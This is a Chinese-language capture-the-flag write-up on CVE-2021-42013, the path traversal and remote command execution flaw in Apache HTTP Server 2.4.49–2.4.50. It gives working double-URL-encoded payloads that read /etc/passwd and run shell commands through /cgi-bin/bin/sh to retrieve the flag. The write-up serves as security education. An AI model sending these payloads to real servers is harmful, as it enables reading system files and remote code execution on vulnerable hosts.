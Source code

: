 # Week5 Unsafe Apache 200

## 0、知识点与工具

>   Apache HTTP Server 2.4.50 中的路径遍历和文件泄露漏洞

>   工具：burpsuite



## 1、分析

>   打开页面，页面没什么有用的，查看源代码也没发现什么
>
>   通过burpsuite抓取请求后发现使用的Server是：`Apache/2.4.50 (Unix)`

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214215530.png)

>    然后百度或者谷歌搜索`Apache/2.4.50 (Unix)`的漏洞

## 2、漏洞分析

**影响版本**

>   此漏洞影响 `Apache HTTP Server 2.4.49 和 2.4.50`，**而不会影响更早版本**。

**漏洞形成原理**

>   **CVE-2021-42013 是由于CVE-2021-41773修复不完整而导致的漏洞，**
>
>   **攻击者可以使用路径遍历攻击将 URL 映射到由 Alias-like 指令配置的目录之外的文件。**
>
>   **Apache HTTP Server 2.4.50 修补了以前的 CVE-2021-41773 有效负载**，
>
>   例如：`http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`，但它不完整。
>
>   **可以用`.%%32%65`绕过补丁**，**如果还要访问文件还需要服务器启用mods、[cgi](https://baike.baidu.com/item/CGI/607810)或者cgid**

>   `.%%32%65`的本质是进行两次url编码的字符【.】，将其解码后得到【..】
>
>   在上面那个例子就阔以看出是进行目录切换

**利用方式**

-   通过如下命令可以访问到passwd文件

    ```c
    /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
    ```

-   通过如下命令可以执行命令

    ```c
    /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh
    
    echo;命令
    ```

    

## 3、解题

>   根据漏洞的信息，首先get访问如下路径，进行测试

```c
/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214230806.png)

>   访问成功，然后执行命令

```c
/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh

echo;ls /
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214231101.png)

>   最后获取flag

```c 
/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh

echo;cat /ffffllllaaagggg_cc084c485d
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214231139.png)
